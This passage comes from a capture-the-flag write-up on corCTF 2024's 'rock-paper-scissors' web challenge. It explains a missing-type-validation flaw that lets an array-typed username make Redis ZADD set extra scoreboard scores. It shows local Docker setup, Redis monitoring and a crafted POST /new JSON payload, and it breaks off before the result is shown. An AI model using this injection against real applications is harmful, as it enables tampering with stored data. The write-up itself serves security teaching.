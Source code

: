 ```
ZADD scoreboard 123 "dummy_username" 1337 "flag_username"
```

In this challenge, there's **no type validation** at all, so we can **parse our username as an array to trick the `zadd` method to set multiple members' score**! 

## Exploitation

To test this, we can build the Docker images and run the containers locally:

```shell
┌[siunam♥Mercury]-(~/ctf/corCTF-2024/web/rock-paper-scissors)-[2024.07.29|19:36:31(HKT)]
└> cd rock-paper-scissors   
┌[siunam♥Mercury]-(~/ctf/corCTF-2024/web/rock-paper-scissors/rock-paper-scissors)-[2024.07.29|19:36:33(HKT)]
└> docker compose -f "docker-compose.yml" up -d --build
[...]
```

Now, to check the Redis logs in real-time, we can go to our Redis container and use command [`MONITOR`](https://redis.io/docs/latest/commands/monitor/):

```shell
┌[siunam♥Mercury]-(~/ctf/corCTF-2024/web/rock-paper-scissors/rock-paper-scissors)-[2024.07.29|19:41:55(HKT)]
└> docker container list
CONTAINER ID   IMAGE                       COMMAND                  CREATED              STATUS              PORTS                                         NAMES
5dc55349c71a   rock-paper-scissors-chall   "docker-entrypoint.s…"   About a minute ago   Up About a minute   0.0.0.0:8080->8080/tcp, :::8080->8080/tcp     rock-paper-scissors-chall-1
3efdf78fc5dc   redis                       "docker-entrypoint.s…"   About a minute ago   Up About a minute   0.0.0.0:32769->6379/tcp, :::32769->6379/tcp   rock-paper-scissors-redis-1
┌[siunam♥Mercury]-(~/ctf/corCTF-2024/web/rock-paper-scissors/rock-paper-scissors)-[2024.07.29|19:42:17(HKT)]
└> docker exec -it 3efdf78fc5dc /bin/bash                                               
root@3efdf78fc5dc:/data# redis-cli monitor
OK

```

Then, we can go to `localhost:8080` and test it!

First, we'll need to let the application to sign our JWT with the following payload and get the `session` cookie:

```http
POST /new HTTP/1.1
Host: localhost:8080
Content-Type: application/json
Content-Length: 52

{
  "username": [
    "dummy_username",
    1337,
    "flag_username"
  ]
}
```
